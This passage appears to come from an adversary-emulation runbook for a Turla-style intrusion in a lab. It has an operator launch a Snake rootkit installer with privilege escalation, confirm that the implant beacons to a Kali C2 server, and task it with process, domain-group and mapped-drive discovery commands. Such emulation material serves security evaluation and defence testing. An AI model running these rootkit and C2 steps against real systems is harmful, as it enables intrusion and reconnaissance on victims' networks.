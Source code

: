 * From the `egle` (:heavy_exclamation_mark: NOT `egleadmin`) powershell terminal, run the following command to execute the Snake rootkit installer with the privilege escalation option:
```powershell
C:\Users\Egle\Desktop\gusbsys.exe -f
```

* Within the RDP session, go to your Edge window. Perform a hard refresh on the current page by pressing Ctrl+Shift+R.

:arrow_right: Return to your Kali C2 server terminal window and verify that a new implant session is beaconing back to the C2 server.

:arrow_right: Return to your Kali C2 server terminal window.

* From your lower Kali C2 terminal window, task the Snake rootkit to run the following process discovery command:
```bash
# Discover running processes
cd /opt/day2/turla/Resources/control_server
./evalsC2client.py --set-task 534b40585d514b554844 '{"type": 3, "proc": "tasklist.exe", "args": "/v"}'
```

* :heavy_exclamation_mark: Verify that the enumerated processes output contains a process running under `EgleAdmin`
```bash
grep 'NK\\EgleAdmin' logs.txt -i
```

> This should return output similar to the following:
>    ```
>    powershell.exe                2868 RDP-Tcp#6                  5     79,140 K Unknown         NK\egleadmin                                            0:00:00 N/A
>    conhost.exe                   7368 RDP-Tcp#6                  5     18,088 K Unknown         NK\egleadmin                                            0:00:00 N/A
>    ```

* Wait 1 minute then execute the next discovery command to enumerate `EgleAdmin`'s groups:
```bash
# Enumerate details on EgleAdmin to find group membership
./evalsC2client.py --set-task 534b40585d514b554844 '{"type": 3, "proc": "net.exe", "args": "user /domain EgleAdmin"}'
```
:heavy_exclamation_mark: Verify that `File Server Admins` is listed as one of the groups that `EgleAdmin` is a member of.

* Wait 1 minute then execute the next discovery command to the drive mapped to the file server:
```bash
# Discover that the local machine has a drive mapped to the file server
./evalsC2client.py --set-task 534b40585d514b554844 '{"type": 3, "proc": "net.exe", "args": "use", "runas": "nk\\Egle"}'
```
:heavy_exclamation_mark: Verify that the home drive is mapped to the file server host `berzas (10.100.30.204)`.

---
